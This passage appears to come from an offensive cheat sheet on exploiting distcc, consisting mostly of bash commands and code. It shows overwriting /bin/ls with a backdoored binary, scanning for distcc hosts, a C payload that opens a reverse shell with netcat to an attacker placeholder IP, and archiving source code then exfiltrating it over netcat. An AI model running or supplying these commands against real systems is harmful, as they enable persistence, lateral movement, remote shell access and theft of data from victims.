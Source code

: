 ```bash
EOF

gcc /tmp/backdoored_ls.c -o /bin/ls
```

### Lateral Movement

#### Network Discovery
```bash
# Discover other hosts via distcc
cat /etc/distcc/hosts 2>/dev/null
cat ~/.distcc/hosts 2>/dev/null

# Scan for other distcc services
nmap -p 3632 192.168.1.0/24

# Test connectivity to discovered hosts
for host in $(cat /etc/distcc/hosts 2>/dev/null); do
    echo "Testing $host"
    nc -z -w 3 $host 3632 && echo "$host:3632 open"
done
```

#### Compilation-based Lateral Movement
```bash
# Use distcc to compile and execute on remote hosts
# Create malicious source file
cat > /tmp/lateral.c << 'EOF'
#include <stdlib.h>
int main() {
    system("nc <your-ip> 7777 -e /bin/bash");
    return 0;
}
EOF

# Compile on remote distcc hosts
distcc gcc /tmp/lateral.c -o /tmp/lateral

# If successful, the remote host will execute the payload
```

### Data Exfiltration

#### Source Code Exfiltration
```bash
# Find and compress source code
find / -name "*.c" -o -name "*.cpp" -o -name "*.h" 2>/dev/null | head -50 | xargs tar czf /tmp/source_code.tar.gz

# Exfiltrate via netcat
nc <your-ip> 8888 < /tmp/source_code.tar.gz

# Alternative: Base64 encoding for text-based channels
base64 -w 0 /tmp/source_code.tar.gz > /tmp/source_encoded.txt
```
